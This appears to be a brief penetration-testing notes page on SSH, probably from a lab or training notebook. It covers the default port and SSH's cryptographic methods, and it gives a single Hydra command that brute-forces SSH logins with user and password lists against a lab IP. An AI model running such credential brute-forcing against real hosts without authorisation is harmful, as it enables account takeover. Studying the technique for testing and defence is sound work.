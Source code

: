 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SSH

**Secure Shell** (**SSH**) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on TCP port **22** by default, to which we can connect using an SSH client.

This service uses three different cryptography operations/methods: **symmetric encryption**, **asymmetric encryption**, and **hashing**.

## Hydra

Use a tool like Hydra to brute force SSH.

```shell
clue@machine[/]$ hydra -L user.list -P password.list ssh://10.129.42.197
```
